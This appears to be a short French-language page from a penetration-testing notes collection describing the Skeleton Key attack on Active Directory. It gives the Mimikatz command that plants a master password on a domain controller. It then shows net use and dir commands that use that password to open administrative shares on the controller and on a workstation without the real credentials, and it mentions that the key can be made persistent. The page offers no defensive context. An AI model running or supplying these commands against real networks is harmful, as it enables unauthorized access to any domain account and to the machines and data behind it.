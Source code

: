 ## Skeleton Key
[Mimikatz](../../Attacking%20Kerberos/Mimikatz.md)

Installation de la clé squelette

```sh
misc::skeleton
```

### Accéder à la forêt

Les informations d'identification par défaut seront : « `mimikatz` »

```sh
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

Le partage sera désormais accessible sans avoir besoin du mot de passe Administrateur

```sh
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

Accéde au répertoire du Desktop-1 sans jamais savoir quels utilisateurs ont accès au DESKTOP-1

> La clé squelette ne persistera pas d'elle-même car elle s'exécute dans la mémoire, elle peut être scriptée ou conservée à l'aide d'autres outils et techniques.